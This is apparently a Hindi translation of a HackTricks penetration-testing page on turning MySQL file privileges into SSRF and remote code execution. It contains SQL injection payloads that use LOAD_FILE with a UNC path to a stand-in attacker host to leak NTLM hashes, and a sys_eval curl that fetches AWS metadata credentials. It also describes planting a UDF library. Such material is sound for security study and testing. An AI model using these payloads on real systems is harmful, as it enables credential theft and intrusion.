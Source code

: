 # MySQL File priv से SSRF/RCE तक

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **अपनी हैकिंग ट्रिक्स साझा करें PRs जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में.

</details>

### LOAD\_FILE/LOAD DATA/LOAD XML से SSRF तक

हर SQL Out of Band डेटा एक्सफिल्ट्रेशन लेख `LOAD_FILE()` स्ट्रिंग फंक्शन का उपयोग करके नेटवर्क अनुरोध करेगा। इस फंक्शन की अपनी सीमाएँ होती हैं जो ऑपरेटिंग सिस्टम पर और डेटाबेस को शुरू करने के साथ सेटिंग्स पर आधारित होती हैं।

उदाहरण के लिए, यदि `secure_file_priv` ग्लोबल वेरिएबल सेट नहीं किया गया था, तो [डिफ़ॉल्ट मान `/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html) पर सेट होता है, जिसका मतलब है कि आप केवल `LOAD_FILE('filename')` या `LOAD DATA [LOCAL] INFILE 'filename' INTO TABLE tablename` जैसे फंक्शन्स का उपयोग करके `/var/lib/mysql-files/` डायरेक्टरी से फाइलें पढ़ सकते हैं। इस डायरेक्टरी के बाहर की फाइलों को पढ़ने के लिए, `secure_file_priv` विकल्प को `""` पर सेट करना होगा जो केवल डेटाबेस कॉन्फ़िगरेशन फाइल को अपडेट करके या डेटाबेस सर्विस को स्टार्टअप पैरामीटर के रूप में `--secure_file_priv=""` पास करके किया जा सकता है।

फिर भी, जहां `secure_file_priv` `""` पर सेट है, हमें अन्य फाइलों को सिस्टम पर पढ़ने में सक्षम होना चाहिए, बशर्ते फाइल रीड परम्स और `mysql.user` में वर्तमान डेटाबेस उपयोगकर्ता के लिए `file_priv` `Y` पर सेट हो। हालांकि, इन फंक्शन्स का उपयोग करके नेटवर्क कॉल्स करने में सक्षम होना बहुत ऑपरेटिंग सिस्टम पर निर्भर करता है। चूंकि ये फंक्शन्स केवल फाइलों को पढ़ने के लिए बनाए गए हैं, इसलिए केवल नेटवर्क संबंधित कॉल्स जो किए जा सकते हैं वे Windows होस्ट्स पर UNC पथों के लिए हैं क्योंकि [Windows `CreateFileA` api जो फाइल एक्सेस करते समय कॉल की जाती है UNC नामकरण सम्मेलनों को समझती है](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file)।

तो यदि आपका लक्ष्य डेटाबेस एक Windows मशीन पर चल रहा है तो इंजेक्शन क्वेरी `x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //` [Windows मशीन को `\\attackerserver.example.com` के साथ प्रमाणित करने के प्रयास में NTLMv2 हैशेज भेजने का परिणाम होगा](https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html)।

यह Server Side Request Forgery, हालांकि उपयोगी है, केवल TCP पोर्ट 445 तक सीमित है। आप पोर्ट नंबर को नियंत्रित नहीं कर सकते, लेकिन पूर्ण पढ़ने की प्रिव्स के साथ सेटअप शेयरों से जानकारी पढ़ सकते हैं। इसके अलावा, पुराने शोध के साथ दिखाया गया है, आप इस सीमित SSRF क्षमता का उपयोग हैशेज चुराने और उन्हें रिले करने के लिए कर सकते हैं ताकि शेल्स प्राप्त कर सकें, इसलिए यह निश्चित रूप से उपयोगी है।

### User Defined Functions से RCE तक

MySQL डेटाबेस के साथ एक और शानदार तकनीक User Defined Functions (UDF) का उपयोग करने की क्षमता है जो बाहरी लाइब्रेरी फाइलों में मौजूद होती हैं जो यदि विशिष्ट स्थानों पर या सिस्टम $PATH में होती हैं तो MySQL के भीतर से एक्सेस की जा सकती हैं।

आप SQL इंजेक्शन का उपयोग करके एक लाइब्रेरी (`.so` या `.dll` लिनक्स या Windows पर निर्भर करता है) लिख सकते हैं, जिसमें एक User Defined Function होता है जो नेटवर्क/HTTP अनुरोध कर सकता है, जिसे अतिरिक्त क्वेरीज के माध्यम से आमंत्रित किया जा सकता है।

इसके अपने सेट की प्रतिबंध हैं। MySQL के संस्करण के आधार पर, जिसे आप `select @@version` के साथ पहचान सकते हैं, प्लगइन्स को लोड किए जाने वाले निर्देशिका प्रतिबंधित है। MySQL `v5.0.67` से नीचे के संस्करणों ने `plugin_dir` वेरिएबल सेट नहीं होने पर सिस्टम पथ से लाइब्रेरी फाइलों को लोड करने की अनुमति दी थी। अब यह बदल गया है और नए संस्करणों में **`plugin_dir`** वेरिएबल को `/usr/lib/mysql/plugin/` जैसे कुछ पर सेट किया गया है, जो आमतौर पर रूट द्वारा स्वामित्व में होता है।

मूल रूप से **आपको MySQL में एक कस्टम लाइब्रेरी लोड करने और SQL इंजेक्शन के माध्यम से लोड की गई लाइब्रेरी से एक फंक्शन को कॉल करने के लिए आपको चाहिए**:

* SQL इंजेक्शन के माध्यम से **`@@plugin_dir`** में निर्दिष्ट स्थान पर **लिखने की क्षमता**
* **`file_priv`** **`Y`** पर सेट होना चाहिए `mysql.user` में वर्तमान डेटाबेस उपयोगकर्ता के लिए
* **`secure_file_priv`** **`""`** पर सेट होना चाहिए ताकि आप नेटवर्क या वेब एप्लिकेशन में फाइल अपलोड्स निर्देशिका जैसे मनमाने स्थान से लाइब्रेरी के कच्चे बाइट्स को पढ़ सकें।

ऊपर दी गई शर्तों को पूरा करते हुए, आप **क्लासिकल दृष्टिकोण का उपयोग करके डेटाबेस सर्वर पर** [**लोकप्रिय MySQL UDF `lib_mysqludf_sys` लाइब्रेरी**](https://github.com/mysqludf/lib\_mysqludf\_sys) **को स्थानांतरित कर सकते हैं**। आप तब `cURL` या `powershell wget` जैसे ऑपरेटिंग सिस्टम कमांड अनुरोधों का उपयोग करके SSRF करने के लिए सिंटैक्स का उपयोग कर सकते हैं

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

इस लाइब्रेरी में घोषित कई अन्य फंक्शन्स हैं, जिनका विश्लेषण [यहाँ](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/) देखा जा सकता है। यदि आप मेरी तरह आलसी हैं, तो आप लक्ष्य OS के लिए इस UDF लाइब्रेरी की एक प्रति `/usr/share/metasploit-framework/data/exploits/mysql/` निर्देशिका से मेटास्प्लॉइट इंस्टॉलेशन से प्राप्त कर सकते हैं और शुरू कर सकते हैं
